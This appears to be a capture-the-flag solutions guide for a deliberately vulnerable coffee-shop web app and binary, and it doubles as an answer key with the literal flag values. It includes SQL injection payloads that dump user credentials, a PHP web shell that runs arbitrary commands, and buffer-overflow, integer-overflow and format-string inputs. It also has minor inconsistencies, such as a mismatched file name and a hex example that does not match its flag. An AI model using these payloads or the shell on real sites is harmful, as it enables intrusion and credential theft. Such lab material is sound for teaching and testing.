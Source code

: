 # CTF Flags Documentation

## Flag 1: Admin Password Discovery

**Name**: Database Infiltration Flag
**Location**: Base64-encoded admin password in the users table
**Flag Format**: CTF{<admin-password-decoded>}

1. Initial SQL Injection Bypass
    1. Navigate to the login page
    2. Use SQL injection to bypass authentication:
        1. Username: ' OR 1=1 --
        2. Password: anything
    3. This logs you in as the first user in the database

**Hint:** Don't forget to add a space after the `--` to comment out the rest of the query.

2. Access Profile Page

    1. Navigate to index.php?page=profile
    2. Locate the "Share Your Experience" review section


3. Exploit SQL Injection in Review Update

    1. Use the review textarea to perform SQL injection via the updateReview() function
    2. First, discover database structure:
        ```sql
        sql', review_text=(SELECT GROUP_CONCAT(table_name SEPARATOR ', ') FROM information_schema.tables WHERE table_schema=database()) WHERE '1'='1' -- 
        ```


4. Extract User Table Columns

```sql
sql', review_text=(SELECT GROUP_CONCAT(column_name SEPARATOR ', ') FROM information_schema.columns WHERE table_name='users') WHERE '
1'='
1' --
```

5. Extract User Data

```sql
sql', review_text=(SELECT GROUP_CONCAT(CONCAT(username,':',password,':',role) SEPARATOR ', ') FROM users) WHERE '
1'='
1' --
```

6. Decode Admin Password
    1. Locate the admin user entry in the extracted data
    2. The password is stored as base64-encoded
    3. Decode the base64 string to reveal the flag

## Flag 2: File System Access

**Name**: Server File System Flag
**Location**: /flag.txt file on the server
**Flag** Format: CTF{<content-of-flag-txt>}

1. Obtain Admin Credentials
    1. Complete Flag 1 exploit to get admin username and decoded password
2. Login as Administrator
    1. Use the admin credentials to log in properly as admin user
3. Access File Upload Functionality
    1. As an admin user, the profile page shows file upload capability
    2. The upload function in handleFileUpload() has no file type restrictions for admins
4. Create PHP Web Shell
    1. Create a PHP file with web shell functionality:
   ```html
   <html>
    <body>
    <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
    <input type="text" name="command" autofocus id="command" size="50">
    <input type="submit" value="Execute">
    </form>
    <pre>
    <?php
        if(isset($_GET['command'])) 
        {
            system($_GET['command'] . ' 2>&1'); 
        }
    ?>
    </pre>
    </body>
    </html>
    ```
   2. Save as shell.png.php
5. Upload Web Shell
   1. Use the profile image upload feature to upload shell.php
   2. The file will be stored in the /uploads/ directory
6. Access Web Shell
   1. Navigate to /uploads/shell.php
   2. Use the command interface to explore the file system
7. Locate and Read Flag
   1. Execute ls or dir to list files in the current directory
   2. Look for flag.txt

## Flag 3: Coffee Strength Flag

**Name**: Coffee Strength Flag
**Location**: Encrypted in `barista_academy.c` binary, revealed upon solving Challenge 1
**Flag Format**: CTF{m0cha_myst3ries_r3v34l3d}

1. Gain Admin Access  
   1. Complete Flag 2 to obtain access to the PHP web shell.

2. Download the Vulnerable Binary  
   1. List the files and locate the base64-encoded binary named `barista_academy`.
   2. Base64-encode the binary on the server so you can copy it:
      ```sh
      base64 ./barista_academy
      ```

3. Decode and Prepare the Binary  
   1. On your local machine, decode the base64 file and make it executable.

4. Run the Binary in Docker  
   1. Move the decoded `barista_academy` binary to the `challenge/secret-executable` directory.
   2. Build and run the Docker container:
      ```sh
      ./run_barista.bat # on windows
      ./run_barista.sh  # on linux/macos
      ```
    3. Alternatively, you may run the binary directly if you have the necessary environment set up, it is a linux/amd64 binary.

5. Exploit the Buffer Overflow
   1. When prompted to enter your favorite coffee blend, input a string that overflows the buffer and overwrites the `coffee_strength` variable.
   2. The goal is to change `coffee_strength` from its initial value (e.g., 17) to exact amount required (this is randomized). Try inputting a string like:
      ```
      1234567890123456789012345678N
      ```
   3. If the value is not correct, adjust the final character until you reach the target value. The program will give hints about the current strength.
   4. Upon success, the program reveals the flag:
      ```
      CTF{m0cha_myst3ries_r3v34l3d}
      ```
    5. Enter this flag when restarting the program to unlock the next challenge.

## Flag 4: Coffee Shop Balance Flag

**Name**: Coffee Shop Balance Flag
**Location**: Encrypted in `barista_academy.c` binary, revealed upon solving Challenge 2
**Flag Format**: CTF{espresso_3xpr3ss_secrets}

1. After capturing Flag 3, the program unlocks Challenge 2.
2. You start with 1100 coins and can buy coffees costing 900 coins each.
3. The program checks if you have enough balance for the purchase.
4. Exploit integer overflow by entering a very large number of coffees to make the total cost overflow to a negative number (e.g., `12312312`).
5. This causes your balance to increase incorrectly. Repeat purchases if needed.
6. Once your balance reaches or exceeds 100,000 coins, the program awards Flag 4:
   ```
   CTF{espresso_3xpr3ss_secrets}
   ```
7. Enter this flag when restarting the program to unlock the next challenge.

**Hint:** Try entering a very large integer as the number of coffees to order. If the program rejects non-numeric input, use a large positive number to trigger the overflow.

## Flag 5: Secret Order Printer Flag

**Name**: Secret Order Printer Flag
**Location**: Encrypted in `barista_academy.c` binary, revealed upon solving Challenge 3
**Flag Format**: CTF{cappucc1n0_cr4ck3r_4l3rt}

1. After capturing Flag 4, the program unlocks Challenge 3.
2. Use the secret order printer feature, which reads your input and passes it directly to `printf` without format string protection.
3. Exploit the format string vulnerability by sending a payload such as:
   ```
   %llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx
   ```
4. The output will display hexadecimal values from the stack. Look for values that resemble ASCII when converted.
5. Reverse the byte order of each 64-bit chunk (little-endian) to reveal the flag. For example:
   - `707061637b465443` → `CTF{capp`
   - `635f306e31636375` → `uccino_3c`
   - ...

   There are many online tools available to help with this conversion. 

6. Combine the parts to get the full flag:
   ```
   CTF{cappucc1n0_cr4ck3r_4l3rt}
   ```

**Hint:** Use repeated `%llx` format specifiers to leak stack memory. Convert the hex output to ASCII and reverse the endianness for each chunk to reconstruct the flag.

